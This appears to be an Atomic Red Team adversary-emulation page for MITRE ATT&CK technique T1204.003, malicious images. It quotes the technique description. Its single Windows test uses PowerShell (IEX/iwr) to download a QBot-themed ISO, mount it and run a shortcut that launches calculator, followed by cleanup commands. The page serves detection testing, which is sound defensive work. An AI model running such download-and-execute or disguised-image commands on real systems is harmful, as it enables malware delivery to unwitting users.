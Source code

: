 # T1204.003 - User Execution: Malicious Image
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1204/003)
<blockquote>

Adversaries may rely on a user running a malicious image to facilitate execution. Amazon Web Services (AWS) Amazon Machine Images (AMIs), Google Cloud Platform (GCP) Images, and Azure Images as well as popular container runtimes such as Docker can be backdoored. Backdoored images may be uploaded to a public repository via [Upload Malware](https://attack.mitre.org/techniques/T1608/001), and users may then download and deploy an instance or container from the image without realizing the image is malicious, thus bypassing techniques that specifically achieve Initial Access. This can lead to the execution of malicious code, such as code that executes cryptocurrency mining, in the instance or container.(Citation: Summit Route Malicious AMIs)

Adversaries may also name images a certain way to increase the chance of users mistakenly deploying an instance or container from the image (ex: [Match Legitimate Name or Location](https://attack.mitre.org/techniques/T1036/005)).(Citation: Aqua Security Cloud Native Threat Report June 2021)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Malicious Execution from Mounted ISO Image](#atomic-test-1---malicious-execution-from-mounted-iso-image)


<br/>

## Atomic Test #1 - Malicious Execution from Mounted ISO Image
Adversaries may rely on a user running a malicious image to facilitate execution

**Supported Platforms:** Windows


**auto_generated_guid:** e9795c8d-42aa-4ed4-ad80-551ed793d006






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.003/src/qbot-test.iso" -OutFile "$env:TEMP\qbot-test.iso")
Mount-DiskImage -ImagePath "$env:TEMP\qbot-test.iso"
$mountedpath = (Get-DiskImage -ImagePath "$env:TEMP\qbot-test.iso" | Get-Volume).DriveLetter
$finalpath = $mountedpath + ":\"
cd $finalpath
.\calc.exe.lnk
```

#### Cleanup Commands:
```powershell
start-sleep -s 5
stop-process -Name "Calculatorapp" -Force 
dismount-diskimage -ImagePath "$env:TEMP\qbot-test.iso"
```





<br/>
